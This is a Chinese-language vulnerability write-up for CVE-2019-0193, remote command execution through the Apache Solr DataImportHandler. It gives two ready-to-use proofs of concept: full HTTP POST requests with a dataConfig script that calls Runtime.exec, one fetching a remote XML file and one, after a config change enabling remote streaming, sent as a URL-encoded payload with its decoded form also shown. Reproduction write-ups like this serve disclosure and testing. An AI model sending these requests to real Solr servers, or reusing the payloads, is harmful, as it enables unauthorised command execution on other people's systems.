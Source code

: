 ```yaml
---
title: "（CVE-2019-0193）Apache Solr 远程命令执行漏洞"
id: zhfly2826
---
```


# （CVE-2019-0193）Apache Solr 远程命令执行漏洞

## 一、漏洞简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## 二、漏洞影响

Apache Solr < 8.2.0

## 三、复现过程

### poc 一 ：需要目标出网，支持低版本检测

> 判断该索引库是否使用了DataImportHandler模块

*   访问 `http://www.0-sec.org:8983/solr/test_0nth3way/admin/mbeans?cat=QUERY&wt=json`

*   如果使用了`DataImportHandler`模块 则HTTP响应内会有: `org.apache.solr.handler.dataimport.DataImportHandler`

![1.png](../img/cc8112602ce8f8a955f207bfc2e482da.png)

*   构造HTTP请求，远程执行代码

```
POST /solr/test_0nth3way/dataimport HTTP/1.1
Host: www.0-sec.org:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.17.136:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 1231
Connection: close

command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test_0nth3way&name=dataimport&dataConfig=

<dataConfig>

<dataSource type=“URLDataSource”/>

<script><![CDATA[

```
 function poc(row){ 
```

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(“id”).getInputStream()));

var result = [];

while(true) {

var oneline = bufReader.readLine();

result.push( oneline );

if(!oneline) break;

}

row.put(“title”,result.join("\n\r"));

return row;

}

]]></script>

```
 &lt;document&gt;
         &lt;entity name="entity1"
                 url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                 processor="XPathEntityProcessor"
                 forEach="/RDF/item"
                 transformer="script:poc"&gt;
                    &lt;field column="title" xpath="/RDF/item/title" /&gt;
         &lt;/entity&gt;
    &lt;/document&gt; 
```

</dataConfig> 
```

> demo.xml

> 若如上github因不可抗因素失效，可自行用自己vps搭建demo.xml

```
<?xml version="1.0" encoding="UTF-8"?>
<RDF>
<item/>
</RDF> 
```

![2.png](../img/4d4d05d5c7a79f593af9549ccc4c8a78.png)

### poc 二 ：不需要目标出网，不支持低版本检测

*   判断该索引库是否使用了`DataImportHandler`模块（同上）

*   修改`configoverlay.json`文件中的配置，以启用远程流的相关选项 （enableStreamBody、enableRemoteStreaming） 注：某些低版本会不成功，即响应500；成功响应200

```
POST /solr/test_0nth3way/config HTTP/1.1
Host: www.0-sec.org:8983
Accept: */*
Content-type:application/json
Content-Length: 159
Connection: close `{“set-property”: {“requestDispatcher.requestParsers.enableRemoteStreaming”: true}, “set-property”: {“requestDispatcher.requestParsers.enableStreamBody”: true}}` 
```

*   构造HTTP请求，远程执行代码

```
POST /solr/test_0nth3way/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test_0nth3way&name=dataimport&dataConfig=%3c%64%61%74%61%43%6f%6e%66%69%67%3e%0a%3c%64%61%74%61%53%6f%75%72%63%65%20%6e%61%6d%65%3d%22%73%74%72%65%61%6d%73%72%63%22%20%74%79%70%65%3d%22%43%6f%6e%74%65%6e%74%53%74%72%65%61%6d%44%61%74%61%53%6f%75%72%63%65%22%20%6c%6f%67%67%65%72%4c%65%76%65%6c%3d%22%54%52%41%43%45%22%20%2f%3e%0a%0a%20%20%3c%73%63%72%69%70%74%3e%3c%21%5b%43%44%41%54%41%5b%0a%20%20%20%20%20%20%20%20%20%20%66%75%6e%63%74%69%6f%6e%20%70%6f%63%28%72%6f%77%29%7b%0a%20%76%61%72%20%62%75%66%52%65%61%64%65%72%20%3d%20%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%69%64%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%29%3b%0a%0a%76%61%72%20%72%65%73%75%6c%74%20%3d%20%5b%5d%3b%0a%0a%77%68%69%6c%65%28%74%72%75%65%29%20%7b%0a%76%61%72%20%6f%6e%65%6c%69%6e%65%20%3d%20%62%75%66%52%65%61%64%65%72%2e%72%65%61%64%4c%69%6e%65%28%29%3b%0a%72%65%73%75%6c%74%2e%70%75%73%68%28%20%6f%6e%65%6c%69%6e%65%20%29%3b%0a%69%66%28%21%6f%6e%65%6c%69%6e%65%29%20%62%72%65%61%6b%3b%0a%7d%0a%0a%72%6f%77%2e%70%75%74%28%22%74%69%74%6c%65%22%2c%72%65%73%75%6c%74%2e%6a%6f%69%6e%28%22%5c%6e%5c%72%22%29%29%3b%0a%72%65%74%75%72%6e%20%72%6f%77%3b%0a%0a%7d%0a%0a%5d%5d%3e%3c%2f%73%63%72%69%70%74%3e%0a%0a%3c%64%6f%63%75%6d%65%6e%74%3e%0a%20%20%20%20%3c%65%6e%74%69%74%79%0a%20%20%20%20%20%20%20%20%73%74%72%65%61%6d%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%6e%61%6d%65%3d%22%65%6e%74%69%74%79%31%22%0a%20%20%20%20%20%20%20%20%64%61%74%61%73%6f%75%72%63%65%3d%22%73%74%72%65%61%6d%73%72%63%31%22%0a%20%20%20%20%20%20%20%20%70%72%6f%63%65%73%73%6f%72%3d%22%58%50%61%74%68%45%6e%74%69%74%79%50%72%6f%63%65%73%73%6f%72%22%0a%20%20%20%20%20%20%20%20%72%6f%6f%74%45%6e%74%69%74%79%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%66%6f%72%45%61%63%68%3d%22%2f%52%44%46%2f%69%74%65%6d%22%0a%20%20%20%20%20%20%20%20%74%72%61%6e%73%66%6f%72%6d%65%72%3d%22%73%63%72%69%70%74%3a%70%6f%63%22%3e%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%3c%66%69%65%6c%64%20%63%6f%6c%75%6d%6e%3d%22%74%69%74%6c%65%22%20%78%70%61%74%68%3d%22%2f%52%44%46%2f%69%74%65%6d%2f%74%69%74%6c%65%22%20%2f%3e%0a%20%20%20%20%3c%2f%65%6e%74%69%74%79%3e%0a%3c%2f%64%6f%63%75%6d%65%6e%74%3e%0a%3c%2f%64%61%74%61%43%6f%6e%66%69%67%3e HTTP/1.1
Host: www.0-sec.org:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.17.136:8983/solr/
Content-Length: 212
content-type: multipart/form-data; boundary=------------------------aceb88c2159f183f

--------------------------aceb88c2159f183f

Content-Disposition: form-data; name=“stream.body”

<?xml version=“1.0” encoding=“UTF-8”?>

<RDF>

<item/>

</RDF> `--------------------------aceb88c2159f183f–` 
```

> 注：其中dataConfig的值，URLencode之前为以下字符串

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

<script><![CDATA[

function poc(row){

var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(“id”).getInputStream()));

var result = [];

while(true) {

var oneline = bufReader.readLine();

result.push( oneline );

if(!oneline) break;

}

row.put(“title”,result.join("\n\r"));

return row;

}

]]></script> `<document>

<entity

stream=“true”

name=“entity1”

datasource=“streamsrc1”

processor=“XPathEntityProcessor”

rootEntity=“true”

forEach="/RDF/item"

transformer=“script:poc”>

<field column=“title” xpath="/RDF/item/title" />

</entity>

</document>

</dataConfig>` 
```

![3.png](../img/8c0426c1225a8e48f1254bf0ca6aa580.png)

## 参考链接

> https://www.cnblogs.com/0nth3way/p/11908763.html
